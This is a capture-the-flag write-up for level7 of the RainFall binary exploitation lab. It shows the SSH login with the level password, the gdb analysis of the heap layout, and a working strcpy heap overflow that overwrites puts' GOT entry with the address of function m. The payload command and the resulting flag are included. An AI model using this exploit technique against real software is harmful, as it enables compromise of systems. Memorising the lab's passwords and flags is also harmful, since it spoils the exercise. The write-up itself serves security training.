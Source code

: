 login as `level7`

```shell
ssh -p 4242 level7@10.13.100.239
level7@10.13.100.239's password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```

a `SUID` exactable file is locates in the home directory


```shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 xxx
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 xxx xxx
~~
level7@RainFall:~$
```

```gdb
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
```


after inspecting the binary with gdb we find that the main function read the content of
`/home/user/level8/.pass` and stores it in the global variable `c`, the variable `c` in printed inside the `m` function. but not before copying the contents of the first and second program argument to 2 different string pointers within a user defines struct using `strcpy`. the struct is simple containing only a int and a pointer to a string array.


```gdb
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

inspecting the heap after every allocation gives us the following

```gdb
(gdb) x/64wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
                  # address of the first struct ^               ^ # the pointer to the string
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
                                                ^ # the first string mem address
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
                  # address of the second struct ^               ^ # the pointer to the string
0x804a030:      0x00000000      0x00000011      0x41414141      0x41414141
                                                ^ # the second string mem address
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
```

we can exploit the use of `strcpy` by changing the address the that the second struct string is pointing to
into the address of `puts` in the GOT. then we can write into the GOT replacing the address of the `puts` function with the address of the function `m`



```shell
level7@RainFall:~$ ./level7 `python -c "print 'A' * 20 + '\x28\x99\x04\x08'"` `python -c "print '\xf4\x84\x04\x08'"`

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1746627587
```
